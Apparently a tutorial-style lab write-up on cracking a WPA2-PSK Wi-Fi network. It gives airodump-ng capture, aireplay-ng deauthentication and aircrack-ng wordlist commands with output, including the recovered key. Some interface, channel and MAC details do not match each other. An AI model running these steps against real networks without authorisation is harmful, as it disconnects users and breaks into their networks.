 ```yaml
---
description: >-
  Cracking Hashes
title:  Cracking Hashes      # Add title here
date: 2023-09-27 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Cracking Attacks]                     # Change Templates to Writeup
tags: [wireless, cracking hashes]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Methodology

First, we'll need to capture a handshake. 
Next, we will make a guess at the passphrase and send that guess into the hash function. 
We will then compare the output from the hash function to the handshake.

### Capturing the Handshake

We will identify the channel of the target AP and gather its BSSID to limit our capture with airodump-ng.
```bash
sudo airodump-ng wlan0
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 XX:XX:XX:XX:XX:XX  -67        4        0    0  11  720   WPA2 CCMP   PSK  PUMA5_GOL   
 XX:XX:XX:XX:XX:XX  -69        4        0    0   8  130   WPA2 CCMP   PSK  Total play may
 XX:XX:XX:XX:XX:XX  -71        3        0    0   2  130   OPN              ClubTotalplay_WiFi_2.4G
 XX:XX:XX:XX:XX:XX  -49       28        0    0  11  195   WPA2 CCMP   PSK  TOTALPLAY_220C3C       
 XX:XX:XX:XX:XX:XX  -61       12        0    0  11  130   WPA2 CCMP   PSK  INFINITUM37FA 
 XX:XX:XX:XX:XX:XX  -67       13        0    0  11  130   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -38       24        3    0  11  195   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -68        3        0    0   6  130   OPN              MXConectado-E 
 XX:XX:XX:XX:XX:XX  -66        4        0    0   6  540   WPA2 CCMP   PSK  IZZI-D49A   
 XX:XX:XX:XX:XX:XX  -61       13        1    0   8  130   WPA2 CCMP   PSK  INFINITUM1500 
 7C:13:1D:B2:3D:A4  -29       42       19    0   5  130   WPA2 CCMP   PSK  Not_Of_Your_Buzzinez <----
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -67    0 - 1e     0        1
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    1e- 1e     0        3
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    0 - 1e     0        2
 7C:13:1D:B2:3D:A4  1E:F4:C6:7B:66:C1  -32    0 - 1e     0        1 <----
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -71    0 - 1e   502        6
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX   -1    1e- 0      0       72                   
```
Our target is the 'Not_Of_Your_Buzzinez' AP, which operates on channel 5. Its BSSID is 7C:13:1D:B2:3D:A4 and it has one client with a MAC address of 00:18:4D:1D:A8:1F. The AUTH column shows the AP has an authentication type of PSK. This is a good sign. aircrack-ng does not work when the authentication is Enterprise (MGT), as it requires a different set of tools. Opportunistic Wireless Encryption cannot be cracked yet.

Then we proceed to capture the packet as follows:
```bash
sudo airodump-ng -c 5 -w wpa --essid 'Not_Of_Your_Buzzinez' --bssid 7C:13:1D:B2:3D:A4 wlan0
```

With the airodump-ng running we then proceed to deauthenticate the user from the AP with aireplay-ng. We'll use the -0 1 option to deauthenticate once, and -a to target our BSSID. We'll use -c to identify the associated client, and finally specify wlan0mon for our listening interface.
```bash
sudo aireplay-ng -0 1 -a 7C:13:1D:B2:3D:A4 -c 1E:F4:C6:7B:66:C1 wlan0
13:30:30  Waiting for beacon frame (BSSID: 7C:13:1D:B2:3D:A4) on channel 1
13:30:30  Sending 64 directed DeAuth (code 7). STMAC: [1E:F4:C6:7B:66:C1] [ 0| 0 ACKs]

```
Aireplay-ng checks that the BSSID exists before sending the deauthentication packets. Once the client reconnects with the target AP, airodump-ng will be able to capture a handshake.
```bash
CH  5 ][ Elapsed: 52 s ][ 2020-02-29 13:31 ][ WPA handshake: 1E:F4:C6:7B:66:C1
```

### Cracking the Hash

Now that we have captured a handshake, cracking it is relatively easy. We run aircrack-ng against our recently created capture file, wpa-01.cap. We'll use a list of commonly used passwords, also known as a wordlist, located at /usr/share/john/password.lst. We'll use -w to specify the path to our wordlist. Next, we'll use -e to indicate which ESSID to target, and then -b to specify the BSSID.

```bash
aircrack-ng -w /usr/share/john/password.lst -e 'Not_Of_Your_Buzzinez' -b 7C:13:1D:B2:3D:A4 wpa-01.cap
                               Aircrack-ng 1.7 

      [00:00:00] 2/5 keys tested (214.45 k/s) 

      Time left: 0 seconds                                      40.00%

                      KEY FOUND! [ Th1s1s0bvi0uslyN0tTh3P4ssw0rd ]


      Master Key     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      Transient Key  : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      EAPOL HMAC     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX
```